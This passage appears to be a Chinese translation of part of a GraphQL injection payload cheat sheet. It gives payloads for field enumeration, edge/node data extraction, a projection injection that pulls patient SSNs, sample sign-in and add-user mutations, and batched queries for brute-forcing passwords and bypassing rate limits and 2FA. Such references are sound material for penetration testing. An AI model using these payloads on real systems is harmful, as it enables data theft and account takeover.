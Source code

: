 ```js
example.com/graphql?query={TYPE_1{FIELD_1,FIELD_2}}
```

![HTB Help - GraphQL 注入](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/GraphQL%20Injection/Images/htb-help.png?raw=true)

### 使用边/节点提取数据

```json
{
  "query": "query {
    teams{
      total_count,edges{
        node{
          id,_id,about,handle,state
        }
      }
    }
  }"
} 
```

### 使用投影提取数据

:warning: 不要忘记在 **options** 中转义 "。

```js
{doctors(options: "{\"patients.ssn\" :1}"){firstName lastName id patients{ssn}}}
```

### 突变

突变就像函数一样工作，你可以用它们与 GraphQL 进行交互。

```javascript
# mutation{signIn(login:"Admin", password:"secretp@ssw0rd"){token}}
# mutation{addUser(id:"1", name:"Dan Abramov", email:"dan@dan.com") {id name email}}
```

### GraphQL 批量攻击

常见场景：

- 密码暴力破解放大场景
- 绕过速率限制
- 绕过 2FA

#### 基于 JSON 列表的批量处理

> 查询批处理是 GraphQL 的一个功能，允许在单个 HTTP 请求中向服务器发送多个查询。客户端不需要单独发送每个查询，而是可以将查询数组作为一个 POST 请求发送到 GraphQL 服务器。这减少了 HTTP 请求的数量，可以提高应用程序的性能。

查询批处理通过在请求体中定义操作数组来实现。每个操作可以有自己的查询、变量和操作名称。服务器按数组顺序处理每个操作，并返回一个响应数组，每个查询对应一个响应。

```json
[
    {
        "query":"..."
    },{
        "query":"..."
    }
    ,{
        "query":"..."
    }
    ,{
        "query":"..."
    }
    ...
]
```